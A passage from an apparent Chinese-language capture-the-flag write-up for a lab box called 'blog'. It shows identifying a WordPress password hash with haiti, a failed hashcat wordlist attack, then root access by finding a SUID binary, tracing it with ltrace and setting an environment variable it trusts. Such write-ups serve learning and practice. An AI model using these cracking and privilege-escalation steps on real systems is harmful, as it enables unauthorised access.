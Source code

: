 ## hashcat 爆破

使用haiti-hash帮助快速识别hash类型：

    ┌──(root🐦kali)-[/home/sugobet]
    └─# haiti '$P$BjoFHe8zIyjnQe/CBvaltzzC6ckPcO/'
    Wordpress ≥ v2.6.2 [HC: 400] [JtR: phpass]
    Joomla ≥ v2.5.18 [HC: 400] [JtR: phpass]
    PHPass' Portable Hash [HC: 400] [JtR: phpass]

hashcat:

    ┌──(root🐦kali)-[/home/sugobet]
    └─# hashcat -a 0 -m 400 '$P$BjoFHe8zIyjnQe/CBvaltzzC6ckPcO/' /usr/share/wordlists/rockyou.txt

结果没爆出来，666

## 权限提升

    find / -type f -perm -u+s 2>/dev/null

发现可疑的程序：

    www-data@blog:/var/www/wordpress$ ls -la /usr/sbin/checker
    ls -la /usr/sbin/checker
    -rwsr-sr-x 1 root root 8432 May 26  2020 /usr/sbin/checker
    www-data@blog:/var/www/wordpress$ /usr/sbin/checker
    /usr/sbin/checker
    Not an Admin

估计是调用了什么东西来识别我们的权限

使用ltrace追踪一下

    www-data@blog:/var/www/wordpress$ ltrace /usr/sbin/checker
    ltrace /usr/sbin/checker
    getenv("admin")                                  = nil
    puts("Not an Admin"Not an Admin
    )

获取环境变量admin的值来判断的

盲猜，伪代码:

    if getenv("admin") == "Admin"

:

    www-data@blog:/var/www/wordpress$ export admin=Admin
    www-data@blog:/var/www/wordpress$ /usr/sbin/checker
    root@blog:/var/www/wordpress# whoami
    root

成功getroot

user.txt

    root@blog:/var/www/wordpress# find / -type f -name user.txt 2>/dev/null
    find / -type f -name user.txt 2>/dev/null
    /home/bjoel/user.txt
    /media/usb/user.txt

root.txt还在老地方
